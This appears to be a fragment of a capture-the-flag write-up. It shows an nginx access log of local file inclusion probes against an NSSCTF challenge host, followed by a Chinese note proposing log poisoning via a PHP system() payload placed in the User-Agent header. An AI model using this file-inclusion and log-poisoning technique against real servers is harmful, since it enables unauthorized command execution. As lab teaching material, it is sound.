 ```txt
" 42.92.203.212 - - [22/Jan/2025:13:23:31 +0000] "GET /?file=.? HTTP/1.1" 200 319 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:31 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=.?" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:55 +0000] "GET /?file=robots.txt HTTP/1.1" 200 335 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:23:55 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=robots.txt" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:24:10 +0000] "GET /?file=.htaccess HTTP/1.1" 200 333 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:24:10 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=.htaccess" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:24:24 +0000] "GET /?file=index.html HTTP/1.1" 200 335 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:24:24 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=index.html" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:25:11 +0000] "GET / HTTP/1.1" 200 1534 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:25:11 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:25:16 +0000] "GET / HTTP/1.1" 200 1534 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0" 42.92.203.212 - - [22/Jan/2025:13:25:16 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36 Edg/132.0.0.0" 42.92.203.212 - - [22/Jan/2025:13:25:33 +0000] "GET /?file=/etc/nginx/nginx.conf HTTP/1.1" 200 934 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:25:33 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=/etc/nginx/nginx.conf" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:28:19 +0000] "GET /?file=/etc/nginx/sites-enabled/default HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:28:19 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=/etc/nginx/sites-enabled/default" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:28:26 +0000] "GET /?file=/etc/nginx/sites-enabled/default HTTP/1.1" 200 15 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 42.92.203.212 - - [22/Jan/2025:13:28:26 +0000] "GET /favicon.ico HTTP/1.1" 200 1534 "http://node5.anna.nssctf.cn:27889/?file=/etc/nginx/sites-enabled/default" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36"
```

可以尝试用ua头投毒

在ua头里包裹

```txt
User-Agent: <?php system('ls -la'); ?>
```
